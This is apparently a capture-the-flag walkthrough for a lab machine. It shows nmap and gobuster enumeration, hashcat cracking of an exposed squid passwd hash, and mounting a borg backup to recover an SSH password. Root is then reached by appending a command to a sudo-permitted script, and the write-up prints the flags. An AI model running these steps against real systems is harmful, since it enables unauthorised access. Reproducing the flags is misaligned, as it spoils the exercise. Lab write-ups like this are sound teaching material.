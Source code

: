 # Task 2 Compromise the System

Compromise the machine and read the user.txt and root.txt

### Scan the machine, how many ports are open?

`sudo nmap -sS -Pn -p- -T4 -vv 10.10.53.223`

```
Discovered open port 22/tcp on 10.10.53.223
Discovered open port 80/tcp on 10.10.53.223
```


Answer: `2`

### What service is running on port 22?

`sudo nmap -sS -Pn -p 22,80 -sC -sV  -T4 -vv 10.10.53.223`

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 61 OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Answer: `ssh`

### What service is running on port 80?

Answer: `http`

### What is the user.txt flag?

Navigate to the website in a browser, apache default page.
No robots.txt

`gobuster dir --url 10.10.53.223 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 40`

We see an `/admin/` site
Navigate to that in a browser
There is an Admins tab, and we can download some Archves.

On the Admins tab, we see some details
```
############################################
############################################
[Yesterday at 4.32pm from Josh]
Are we all going to watch the football game at the weekend??
############################################
############################################
[Yesterday at 4.33pm from Adam]
Yeah Yeah mate absolutely hope they win!
############################################
############################################
[Yesterday at 4.35pm from Josh]
See you there then mate!
############################################
############################################
[Today at 5.45am from Alex]
Ok sorry guys i think i messed something up, uhh i was playing around with the squid proxy i mentioned earlier.
I decided to give up like i always do ahahaha sorry about that.
I heard these proxy things are supposed to make your website secure but i barely know how to use it so im probably making it more insecure in the process.
Might pass it over to the IT guys but in the meantime all the config files are laying about.
And since i dont know how it works im not sure how to delete them hope they don't contain any confidential information lol.
other than that im pretty sure my backup "music_archive" is safe just to confirm.
############################################
############################################
```

Potentially some usernames, Josh, Adam, Alex

The archive contains what looks to be a [borg backup](https://borgbackup.readthedocs.io/)

Additionally there is a `/etc/` site with a squid config and passwd file

Looking at the passwd file, and hashcat examples we can see it is `-m 1600`
`hashcat -a 0 -m 1600 hash.txt rockyou.txt`

The password is `squidward`

This does not let us into SSH unfortunately.

Looking at the archive, we can run
`borg list field/dev/final_archive` and it prompts for a passphrase
using `squidward` shows  a music_archive backup.

```shell
sudo mkdir /mnt/borg
sudo borg mount field/dev/final_archive /mnt/borg
```

Once in the /mnt/borg folder we see a home directory for alex
We have a rabbit hole on the Desktop, however in the Documents folder we see what might be a password `alex:S3cretP@s3`

Connect via SSH with the credentals

`cat user.txt`

Answer: `flag{1_hop3_y0u_ke3p_th3_arch1v3s_saf3}`

### What is the root.txt flag?

`sudo -l`
```
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

```
lex@ubuntu:/etc/mp3backups$ ls -la
total 24
drwxr-xr-x   2 root root  4096 Dec 30  2020 .
drwxr-xr-x 133 root root 12288 Dec 31  2020 ..
-rw-r--r--   1 root root     0 Oct 25 01:34 backed_up_files.txt
-r-xr-xr--   1 alex alex  1083 Dec 30  2020 backup.sh
-rw-r--r--   1 root root    45 Dec 31  2020 ubuntu-scheduled.tgz
```

We can see the file we have sudo permission to run, we are also the owner of.  So we can edit this file to grab the root flat

```shell
chmod +w backup.sh
echo "cat /root/root.txt" >> backup.sh
sudo ./backup.sh
```

Answer: `flag{Than5s_f0r_play1ng_H0p£_y0u_enJ053d}`